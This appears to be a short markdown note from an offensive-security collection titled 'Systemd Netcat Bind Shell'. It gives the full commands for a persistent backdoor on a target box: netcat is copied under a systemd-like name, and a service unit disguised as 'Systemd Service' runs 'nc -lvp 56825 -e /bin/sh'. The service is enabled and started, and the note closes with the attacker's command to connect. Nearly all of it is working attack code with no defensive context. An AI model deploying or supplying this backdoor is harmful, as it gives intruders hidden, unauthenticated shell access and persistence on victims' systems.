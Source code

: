 # Systemd Netcat Bind Shell

On target box

```sh
cp /bin/nc /lib/systemd/systemd-server
```

```sh
touch /lib/systemd/system/systemd.service
```

```sh
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-server -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```

```sh
sudo systemctl enable systemd.service
sudo systemctl start systemd.service
```

On attacker box

```sh
rlwrap nc <TARGET-IP> 56825
```